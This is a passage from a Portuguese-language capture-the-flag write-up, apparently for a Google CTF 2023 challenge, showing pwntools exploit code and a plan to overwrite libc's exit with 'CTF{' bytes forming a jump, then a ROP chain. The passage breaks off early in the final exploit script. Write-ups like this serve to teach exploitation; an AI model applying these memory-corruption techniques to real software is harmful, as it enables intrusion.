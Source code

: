 ```python
io.send(p(before_call_exit+2, 1))
io.send(p(before_call_exit+3, 2))

call_exit = elf_base + 0x1440
io.send(p(call_exit, 1))
io.send(p(call_exit+1, 1))
io.send(p(call_exit+2, 1))
io.send(p(call_exit+3, 2))

# force exit
io.sendline(b'asd')

io.interactive()
```

## Last challenge

Esse é o último e mais difícil desafio, agora não podemos mais escrever dentro do ELF, existe um if que valida que o endereço inserido não esteja dentro do range do binário, em outras palavras, devemos agora ler a flag apenas escrevendo dentro da libc.

Voltamos a cogitar forçar algum erro dentro da libc para escrever a flag, a ideia era escrever em `_IO_2_1_stderr_` e alterar o campo `_fd` para 1337, isso funcionaria… mas não temos como escrever 1337, apenas combinações de “C”, “CT”, “CTF” e “CTF{”.

Enquanto eu e meu teammate @delcon_maki tentávamos descobrir quais instruções poderíamos criar, achamos algo útil:

```python
r3tr0@pwnmachine:~$ python3
>>> hex(ord('C')), hex(ord('T')), hex(ord('F')), hex(ord('{'))
('0x43', '0x54', '0x46', '0x7b')

# 0x43 54 46 7b 43 54
#   C  T  F  {  C  T
r3tr0@pwnmachine:~$ rasm2 -ax86 -b64 -d 0x4354467b4354 
push r12
jnp 0x48
push rsp
```

A instrução “jnp” realiza um jump caso PF=0, com isso escrevemos um exploit seguindo o seguinte plano:

- Sobreescrevemos as primeiras instruções do exit dentro da libc e pulamos a criação do stack frame
- Caímos na função adjacente e esperamos chegar até o “ret”
- Escrevemos um rop chain
- profit :D

O exploit final:

```python
# pwn template ./chal --host wfw3.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"For otherwise I will surely expire")
maps = io.recvuntil(b'\n\n')

libc_base, elf_base = parse_maps(maps)
libc.address = libc_base
exe.address = elf_base

log.info('Libc base: ' + hex(libc_base))
log.info('Elf base: ' + hex(exe.address))

```